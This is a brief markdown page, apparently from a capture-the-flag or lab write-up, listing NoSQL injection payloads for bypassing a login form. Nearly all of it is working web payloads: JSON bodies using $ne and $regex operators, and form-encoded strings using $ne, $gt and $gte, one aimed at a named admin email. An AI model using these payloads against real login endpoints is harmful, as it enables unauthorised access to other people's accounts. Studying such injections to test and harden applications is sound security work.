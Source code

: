 ## Techniques

Add `$ne` or `$regex` on both parameters to bypass authentication

```json
{   
    "email":{$ne: "[email protected]"},
    "password":{$ne: "test"}
}
```

```json
{   
    "email":{$regex: /.*/},
    "password":{$regex: /.*/}
}
```

**Some other payloads that would work are**

This assumes we know the admin's email and we wanted to target them directly

```
email=admin%40mangomail.com&password[$ne]=x
```

Any string is 'greater than' an empty string

```
email[$gt]=&password[$gt]=
```

Same logic as above

```
email[$gte]=&password[$gte]=
```